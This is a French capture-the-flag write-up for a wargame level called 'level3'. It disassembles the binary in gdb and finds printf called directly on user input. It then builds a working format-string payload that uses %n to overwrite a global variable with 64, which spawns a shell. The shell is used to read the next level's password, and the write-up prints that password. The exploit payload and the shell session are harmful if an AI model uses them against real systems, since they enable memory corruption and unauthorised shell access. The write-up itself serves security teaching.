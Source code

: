 # Level3

On observe un exécutable à la racine : `level3`

```shell
$ ./level3
Hello World
Hello World
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level3 -q
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:      push   ebp
   0x0804851b <+1>:      mov    ebp,esp
   0x0804851d <+3>:      and    esp,0xfffffff0
   0x08048520 <+6>:      call   0x80484a4 <v>
   0x08048525 <+11>:     leave
   0x08048526 <+12>:     ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:      push   ebp
   0x080484a5 <+1>:      mov    ebp,esp
   0x080484a7 <+3>:      sub    esp,0x218
   0x080484ad <+9>:      mov    eax,ds:0x8049860
   0x080484b2 <+14>:     mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:     mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:     lea    eax,[ebp-0x208]
   0x080484c4 <+32>:     mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:     call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:     lea    eax,[ebp-0x208]
   0x080484d2 <+46>:     mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:     call   0x8048390 <printf@plt>
   0x080484da <+54>:     mov    eax,ds:0x804988c
   0x080484df <+59>:     cmp    eax,0x40
   0x080484e2 <+62>:     jne    0x8048518 <v+116>
   0x080484e4 <+64>:     mov    eax,ds:0x8049880
   0x080484e9 <+69>:     mov    edx,eax
   0x080484eb <+71>:     mov    eax,0x8048600
   0x080484f0 <+76>:     mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:     mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:     mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:     mov    DWORD PTR [esp],eax
   0x08048507 <+99>:     call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:    mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:    call   0x80483c0 <system@plt>
   0x08048518 <+116>:    leave
   0x08048519 <+117>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level3`

```shell
$ scp -P 4242 -r level3@192.168.56.102:/home/user/level3/level3 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level3
```

_résultat sauvegardé dans [source.md](source.md)_

On remarque que la fonction `v` compare la valeur de `m` a `64`

On regarde de la valeur de `m` juste avant la comparaison

```shell
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< "Hello World"
Starting program: /home/user/level3/level3 <<< "Hello World"
Hello World

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x0    0
```

On remarque aussi que la fonction `v` fait appel à `printf` en utilisant notre `input` directement en paramètre. Utiliser `printf` de cette façon expose aux failles de types `Format String`. Nous pouvons le vérifier maintenant :

```shell
$ python -c 'print "AAAA %.8x %.8x %.8x %.8x"' | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Puisque printf est mal utilisé, les `%` de la chaine que nous envoyons sont traités comme des formateurs et printf va chercher à les remplir. En l'absence de valeurs définies, `%x` nous affiche ici le premier block dans la stack puis le suivant et ainsi de suite. Nous retombons sur nos `AAAA` avec `41414141`

L'adresse de `m` est `0x804988c`. Nous pouvons donc la mettre en memoire et la retrouver grace à `%x`

```shell
$ python -c 'print "\x8c\x98\x04\x08 %4$.8x"' | ./level3
� 0804988c
```

Nous allons maintenant utiliser `%n` a la place de `%x` qui nous permet non pas d'afficher l'adresse lue mais d'y enregistrer le nombre de caractères affichés par printf. Essayons de changer notre `%x` en `%n` et afficher la valeur de `m`

```shell
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
��

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x4   4
```

Grâce au `%n` du printf nous avons réussi a écrire le nombre `4` a l'adresse de `m` . Plus qu'à mettre cette valeur à 64 :

```shell
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x40    64
```

Et voilà !

```shell
$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
Ctrl+D
```
